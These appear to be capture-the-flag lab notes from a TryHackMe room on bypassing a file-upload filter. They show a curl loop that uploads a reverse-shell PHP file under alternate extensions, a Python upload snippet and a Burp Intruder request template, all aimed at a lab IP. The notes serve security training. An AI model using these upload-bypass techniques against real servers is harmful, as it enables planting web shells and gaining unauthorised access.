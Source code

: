## curl bruteforce

to do a very simple brute force (double quote!):

```bash
$ cat list
php
php3
php4
php5
phtml
```

```bash
$ for i in $(cat list); do curl -F "file=@/home/joshua/Documents/thm/vulnversity/shell.php;filename=revshell.$i" http://10.10.206.250:3333/internal/index.php; done
..
..
..
Success</body>
</html>
```

## upload with python

```python
>>> import requests
>>> testfile = open("shell.phtml", "rb")
>>> res = requests.post(url, files={"file": testfile})
```

## brute force with burpsuite

intercept request, then send to `Intruder`,  then configure proper payload position:

```
POST /internal/index.php HTTP/1.1
Host: 10.10.206.250:3333
Content-Length: 310
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.206.250:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeDUkc63nRJlMLpjT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.206.250:3333/internal/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryeDUkc63nRJlMLpjT
Content-Disposition: form-data; name="file"; filename="sugo.§php§"
Content-Type: application/x-php

<?php echo 'ciao'; ?>

------WebKitFormBoundaryeDUkc63nRJlMLpjT
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryeDUkc63nRJlMLpjT--
```
